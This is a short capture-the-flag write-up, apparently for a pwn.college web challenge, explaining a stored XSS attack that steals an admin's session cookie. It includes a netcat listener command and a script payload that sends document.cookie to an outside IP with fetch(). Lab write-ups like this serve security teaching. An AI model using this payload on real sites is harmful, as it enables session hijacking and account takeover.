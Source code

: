 ## 📝 WRITEUP: "XSS Cookie Stealer"

**Challenge Type:** Web security
**Technique:** Stored XSS → Cookie Theft → Admin Impersonation

---

### ✅ Exploitation Steps:

1. We are logged in as a normal user (`hacker`) and can submit posts via `/draft`.
2. These posts are rendered in `/`, including for the admin who views the site automatically.
3. The admin's session is authenticated via the cookie: `auth=admin|pwn.college{...}`.
4. We exploit a stored XSS by submitting a malicious `<script>` tag that runs in the admin's browser.
5. The JavaScript uses `fetch()` to exfiltrate `document.cookie` to our server.
6. We listen using a simple `netcat` command:

   ```bash
   nc -lvnp 8000
   ```
7. Once the admin visits `/`, our script runs and we receive the cookie.
8. Using the stolen cookie, we send authenticated requests and dump the flag.

---

### ✅ Payload Used

```html
<script>
fetch("http://1.2.3.4:8000/?cookie=" + document.cookie);
</script>
```

